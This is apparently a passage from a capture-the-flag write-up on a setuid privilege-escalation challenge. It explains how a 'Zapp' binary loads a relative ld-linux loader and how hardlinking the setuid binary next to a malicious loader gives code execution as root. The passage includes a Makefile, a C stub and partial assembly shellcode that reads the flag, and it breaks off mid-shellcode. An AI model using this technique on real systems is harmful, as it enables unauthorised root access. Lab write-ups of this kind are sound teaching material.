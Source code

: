 Aha. The `_zapps_main` is nothing more than another loader. It basically finds the `ld-linux-x86-64.so.2` binary relative the the Zapp program (`readlink((char []){"/proc/self/exe"}`), opens it, mmaps its **program headers** into memory with the appropriate permissions, deals with the stack, argv, envp, and auxv, changes something in memory with `_zapps_sys_pwrite64`, and then finally returns the ELF entry point of the loader.

So, when a Zapp program is executed, the system loader (`/lib/ld-musl-x86_64.so.1`) will jump to `_zapps_start`, which in turn will open the relative loader `ld-linux-x86-64.so.2` to the Zapp program, and jump in turn to the entry point of the relative `ld-linux-x86-64.so.2`. **Note that all of this happens inside the memory space of the Zapp program**.

In our machine we have a **setuid** Zapp program called `exe` and we also can make hardlinks to setuid programs (`sysctl -w fs.protected_hardlinks=0`). So, we will create a copy of `exe` in our writeable directory via a hardlink. This will preserve the setuid bit. Next, we can create a regular ELF binary which will play the role of a malicious relative `ld-linux-x86-64.so.2`. Instead of being an actual loader, our binary will print the flag (or pop a shell). Our malicious loader will be executed with the permissions of the setuid binary, i.e. `root` in this case. So, here is our exploit:

```makefile
# File: Makefile
CC=gcc
CFLAGS=-g -Os -fPIE

all: exploit.b64

# base64 encoded exploit for easy copy-paster transfer
exploit.b64: exploit
	cat $< | base64 -w 0 > $@

# Define custom Elf64_Ehdr->e_entry to be `mymain` function
exploit: shellcode.o exploit.o
	$(CC) $(CFLAGS) -Wl,-emymain -nostartfiles -o $@ $^

shellcode.o: shellcode-flag.S
	$(CC) $(CFLAGS) -c -o $@ $<
exploit.o: exploit.c
	$(CC) $(CFLAGS) -c -o $@ $<

clean:
	rm -rf *.o exploit exploit.b64
```

```c
// File: exploit.c
extern void shellcode();
int mymain() {
    shellcode();
    return 0;
}
```

```asm
/* File: shellcode-flag.S */
.intel_syntax noprefix
.text
.global shellcode

shellcode:
/* open */
lea rbx, [rip+flag]
mov     rdi, rbx
xor     rsi, rsi
xor     rdx, rdx
mov     eax, 2
syscall

/* read */
```
